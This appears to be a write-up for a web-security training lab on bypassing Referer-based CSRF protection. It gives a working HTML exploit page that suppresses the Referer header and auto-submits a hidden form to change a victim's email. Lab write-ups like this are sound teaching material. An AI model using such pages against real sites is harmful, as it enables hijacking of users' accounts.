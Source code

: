 This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution
Change email validates Referer header.
Remove the Referer header and the change-email request is accepted.

Basic CSRF exploit just add `<meta name="referrer" content="no-referrer">` to ensure cross-site request has no referrer header.

```js
<html>
    <head>
        <meta name="referrer" content="never">
    </head>

    <body>
        <script>history.pushState('','','/')</script>
        <form action="https://LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="test@test">
            <input type="submit" value="submit">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```